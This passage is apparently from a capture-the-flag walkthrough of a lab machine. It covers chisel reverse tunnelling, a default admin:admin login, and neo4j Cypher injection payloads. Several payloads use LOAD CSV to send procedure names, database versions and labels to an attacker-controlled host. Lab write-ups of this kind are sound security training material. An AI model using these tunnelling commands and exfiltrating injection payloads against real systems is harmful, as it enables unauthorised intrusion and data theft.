 On our local machine we run:

`./chisel server --reverse --port 7070`

Then on our target machine we run:

`./chisel client 10.10.14.2:7070 R:3000:127.0.0.1:3000`

We can now access what's being hosted on `3000` on our local machine. Looks like we have a `Gogs` service running.

![](/images/only4you/only12.png)

Once we look at the users under the `explore` tab. We see we have `administrator` and `john`. We don't have either set of those credentials yet, so we can continue to look around which finds nothing else. So next we'll port forward port `8001` and see what's there. We repeat the above command but with `8001` as our port:

`./chisel client 10.10.14.2:7070 R:8001:127.0.0.1:8001`

When we land on this page, we see a username password page.

![](/images/only4you/only13.png)

Sure enough `admin:admin` works for a login! Once we're in, we get a statistics dashboard.

![](/images/only4you/only14.png)

We see an `Employees` tab. Here we seem to have a search function. When we supply a simple `'` we get a `500 Server Error!`. This is probably injectable. Now we know from the front dashboard that the backend is using `neo4j`. The first search for `neo4j sqli` comes back with a bunch of results about a `cypher injection` - [this](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/sql-injection/cypher-injection-neo4j.md) and [this](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j) have some good info on it. We can try one of the first example code for a PoC. We start up a `nc` listener on port `80` and send the `URL Encoded` query.


```
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

No dice, so we try another query:

```
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://attacker.com:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```

This time we get a response back.

![](/images/only4you/only15.png)

So now, we need to use this method to enumerate the database a bit. For `neo4j` we need to get something called `labels`.

```
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.2:80/?label='+label as l RETURN 0 as _0 // 
```
